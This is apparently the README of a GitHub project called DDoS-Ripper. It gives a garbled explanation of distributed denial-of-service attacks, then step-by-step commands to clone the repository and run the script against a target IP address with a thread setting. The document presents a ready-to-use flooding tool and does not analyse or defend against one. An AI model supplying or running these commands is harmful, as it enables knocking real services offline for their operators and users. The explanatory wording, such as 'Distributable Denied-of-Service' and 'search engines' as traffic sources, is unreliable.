 # DDoS-Ripper

# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

`$ git clone https://github.com/palahsu/DDoS-Ripper`

`$ cd DDoS-Ripper`

`$ ls`

`$ python3 DDOS Ripper.py`

`$ python3 DDOS Ripper.py -s [ip Address] -t 135`

`$ example: python3 DDOS Ripper.py -s 123.45.67.89 -t 135`

